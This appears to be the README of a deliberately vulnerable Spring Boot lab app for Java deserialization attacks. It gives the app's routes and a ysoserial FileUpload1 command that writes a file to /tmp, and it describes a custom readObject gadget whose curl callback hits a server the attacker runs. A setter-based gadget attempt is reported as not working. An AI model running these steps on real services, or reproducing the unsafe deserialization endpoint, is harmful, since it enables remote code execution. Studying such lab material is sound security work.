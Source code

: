 * How to Run:
  - Run via `mvn spring-boot:run`

* Routes:
  - Read `blub.txt` file: Visit `/file-test?file=blub.txt`
  - Serialize:
    - Get a serialized `Book` object: Visit `/serialize?doUrlEncode=false`
    - Get a serialized `Book` object that is also URL encoded: Visit `/serialize?doUrlEncode=true`
  - Deserialize:
    - `GET`: Visit `GET /deserialize?b=<base64book_UrlEncoded>`
    - `POST`: Visit `POST /deserialize` and provide the `object-to-deserialize` in the body

* Exploiting a `Gadget Chain` (that still works as of August 2022!):
  - As a PoC, the `pom.xml` contains `commons-fileupload:1.3.1` and `commons-io:2.4`
  - Thus, we can use the `FileUpload1` gadget chain from `ysoserial`: `java -jar ysoserial.jar FileUpload1 'write;/tmp;HACKEEED' | base64`
  - We send this to our `Spring Boot` app, which will create a randomly named file (e.g. `/tmp/upload_1e2897d1_aac7_4210_8911_57cbb6ac37c0_00000000.tmp`) in `/tmp` with the content `HACKEEED`

* We also created our own `Gadget Chain` -> `BookRceReadObject` (uses the gadget `readObject`)
  * `General Description`:
    - We created a new class `BookRceReadObject.java` that execute a command upon deserialization
    - We also create a separate mini app `Evil.java` where we serialize an instance of this class, give it a command of our choosing, and then send the serialized base64-encoded string to `POST /deserialize`
  * `Command to Execute`:
    - You can adjust the command to execute in `Evil.java` (this can't be done via a command line argument for now - Boo, I know.)
  * `Setup`:
    - We first compile `Evil.java` via `javac Evil.java BookRceSetter.java BookRceSetter.java`
    - Now, we `cd` into the `/src/main/java` folder, and run `java com.example.my.tests.Evil`
    - We now use the generated file `naughty_BookRceReadObject.ser` that contains a base64 encoded version of our serialized payload
  * `Exploitation`:
    - `PoC` - `curl`:
      - We run a web server via `python3 -m http.server 82`
      - Now, we adjust the IP address of the `curl` command in `Evil.java` to wherever this web server is running
      - Last, we send a request to our API:  
        POST /deserialize  
        Content-Type: application/json  
        <br />
        <content of `naughty_BookRceReadObject.ser`>  
      - If everything works, our web server gets hit

* Testing `Setter Gadget Chain` -> Not working
  - We also create `BookRceSetter.java` which would execute a command upon calling a setter
    - Our idea is that a `setter` might be automatically invoked upon deserialization (to set the corresponding value)
  - We do the same steps as in the above section, send the payload from `naughty_BookRceSetter.ser` to `/POST deserialize`...
    - But it's not working.. Our command does not execute...
  